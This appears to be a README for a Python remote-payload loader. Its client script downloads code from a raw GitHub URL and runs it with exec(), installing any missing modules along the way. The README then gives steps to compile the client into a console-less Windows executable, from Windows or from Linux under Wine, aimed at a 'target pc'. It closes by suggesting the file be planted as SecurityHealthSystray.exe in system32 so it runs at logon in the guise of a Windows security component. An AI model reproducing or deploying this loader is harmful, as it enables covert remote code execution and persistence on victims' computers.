 # Client example
```python
import os
import sys
import time
import requests
import subprocess

def has_internet():
    try:
        response = requests.get("https://raw.githubusercontent.com/slayy2357/payload1/main/temp.py")
        if response.status_code == 200 and "#don't delete" in response.text:
            return True, response.text
        else:
            return False, None
    except Exception as e:
        print(f"Error checking internet: {e}")
        return False, None

def execute_payload(payload):
    try:
        exec(payload, globals())
    except Exception as e:
        if isinstance(e, ModuleNotFoundError):
            module_name = str(e).split("'")[1]
            print(module_name)
            install_module(module_name)
        else:
            print(f"Error executing downloaded script: {e}")
            raise

def install_module(module_name):
    try:
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
    except subprocess.CalledProcessError as e:
        print(f"Error installing module {module_name}: {e}")
        raise

connected, payload = has_internet()

if connected:
    print("Downloading payload successful.")
    try:
        execute_payload(payload)
    except Exception as e:
        print(f"Error during execution: {e}")
else:
    print("Failed to download payload or invalid content.")
```
## How to make client autorun
### If you are on windows (and target pc is on windows)
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Install pyinstaller :
```bash
pip install pyinstaller
```
Compile client to executable :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
### If you are on linux (and target pc is on windows)
Install wine, download python 64bit .exe installer then start cmd :
```bash
wine cmd
```
Install python (replace with real name):
```bash
pythoninstaller.exe
```
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Then install pyinstaller :
```bash
pip install pyinstaller
```
And finally, compile to .exe :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
## Finally :
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)
